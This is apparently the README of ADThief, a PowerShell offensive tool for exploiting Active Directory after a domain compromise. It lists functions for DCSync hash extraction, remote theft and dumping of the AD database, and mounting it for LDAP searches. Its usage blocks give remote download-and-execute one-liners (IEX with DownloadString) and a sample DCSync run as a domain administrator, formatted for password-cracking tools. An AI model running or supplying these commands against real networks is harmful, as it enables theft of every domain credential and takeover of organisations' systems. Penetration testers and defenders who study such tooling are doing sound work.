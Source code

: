 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Usage

To run on a machine, start PowerShell and then load the module:

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
```

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory, including password hashes
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Prerequisite

The Invoke-DCSync and Dump-ADDatabase functions must be launched on a computer with DSInternals PowerShell module installed. The output of these functions can be formatted using custom views provided by the DSInternals module to support different password cracking tools. The Utils.ps1 file contains a function `Add-DSAccountCustomViews` to add optional views 'SecretsDump' and 'SecretsDumpHistory'.

```
PS C:\> Install-Module DSInternals -Scope CurrentUser
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/Utils.ps1')
PS C:\> Add-DSAccountCustomViews
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Invoke-DCSync -Server DC.ADATUM.CORP -Credential ADATUM\Administrator | Format-Custom -View SecretsDump
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
